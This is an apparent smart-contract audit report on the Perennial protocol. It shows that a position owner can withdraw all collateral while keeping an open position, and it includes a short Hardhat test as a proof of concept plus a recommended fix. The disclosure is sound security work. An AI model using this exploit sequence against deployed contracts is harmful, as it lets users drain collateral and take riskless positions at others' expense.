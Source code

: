 Nyx

high

# Position owner can withdraw all his collateral without closing a position

## Summary
After opening a position, the position owner can withdraw all his collateral.
## Vulnerability Detail
Both LPs (makers) and traders (takers) need to provide collateral to participate in Perennial markets. But after opening a position, they can withdraw their collateral without closing their position.
## Impact
The Position owner can withdraw his collateral so he can have a riskless position.
## Code Snippet
liquidate.test.ts
```ts
it('NYX2 - open withdraw and close position', async () => {
    //@audit test
    const POSITION = utils.parseEther('0.0001')
    const { user, userB, collateral, dsu, chainlink } = instanceVars

    const product = await createProduct(instanceVars)
    await depositTo(instanceVars, user, product, utils.parseEther('1000'))

    // Open position
    await product.connect(user).openMake(POSITION)

    //
    await chainlink.next()
    await chainlink.nextWithPriceModification(price => price.mul(10))
    await product.settle()
    await product.settleAccount(user.address)

    expect(await collateral.liquidatable(user.address, product.address)).to.be.true

    //Withdraw
    await expect(collateral.connect(user).withdrawTo(user.address, product.address, constants.MaxUint256))

    //Close Position
    await product.connect(user).closeMake(POSITION)
  })
```

https://github.com/sherlock-audit/2023-05-perennial/blob/main/perennial-mono/packages/perennial/contracts/collateral/Collateral.sol#L76-L100

https://github.com/sherlock-audit/2023-05-perennial/blob/main/perennial-mono/packages/perennial/contracts/product/Product.sol#L274-L355
## Tool used

Manual Review

## Recommendation
Position owners shouldn't be able to withdraw their collateral before closing their position.
